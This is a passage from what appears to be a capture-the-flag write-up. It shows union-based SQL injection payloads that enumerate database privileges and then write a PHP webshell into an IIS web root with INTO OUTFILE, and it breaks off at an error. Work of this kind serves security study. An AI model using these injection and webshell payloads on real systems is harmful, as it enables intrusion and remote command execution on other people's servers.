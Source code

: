 I'm not sure how these could be useful right now, but I'll start
cracking these now to have later.

Next I'll look at the privileges for the various users with
`productName=Asus' union select grantee,privilege_type,is_grantable,4,5,6 from information_schema.user_privileges#`.
Both hector and root seem to have all the privileges (too many to show
below). manager seems to have one, FILE:

![](/img/image-20191125060613112.png)

### Shell

#### File Write

Since my current user has FILE priv, I'm going to write a webshell on
the box. I'll issue the following POST which should print out a
webshell:



    productName=Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6#



It does write what I wanted it, but unsurprisingly, it does not execute
it, since it's just printed as text to the screen:



    <tr><td><?php system($_GET['cmd']); ?></td><td>2</td><td>3</td><td>4</td><td>5</td><td>6</td></tr>



But, now, I can run the same SQL command, but this time write it to a
file, guessing the default IIS path:



    productName=Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#



The page returns an error:
